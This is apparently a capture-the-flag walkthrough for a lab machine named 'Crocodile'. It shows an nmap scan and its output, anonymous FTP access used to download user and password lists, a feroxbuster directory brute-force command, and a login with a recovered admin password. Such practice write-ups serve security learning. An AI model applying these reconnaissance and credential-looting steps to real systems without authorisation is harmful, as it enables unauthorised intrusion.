



# Crocodile

## Nmap
    nmap -sC (target IP) -T5

21/tcp open  ftp     vsftpd 3.0.3

| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd

| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.135
|      Logged in as ftp
|      TYPE: ASCII

 No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable

|_End of status

80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

### Ports

21/tcp ftp (Code 230)

80/tcp http

## Connect to FTP
    ftp (target ip)

    username:anonymous

    used "dir" command to find the userlist and passwords

    used the "get" command to to download the files

    used the "cat" command in the downloaded dir to view the files

#### Connects to 230

## Find Hidden Pages

    feroxbuster -u "target IP" --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --no-recursion -t 100

## Connect to Hidden Page of Server

http://10.129.96.171/login.php

## Used Creditials Found on Userlists

    Username:admin
    Password:rKXM59ESxesUFHAd

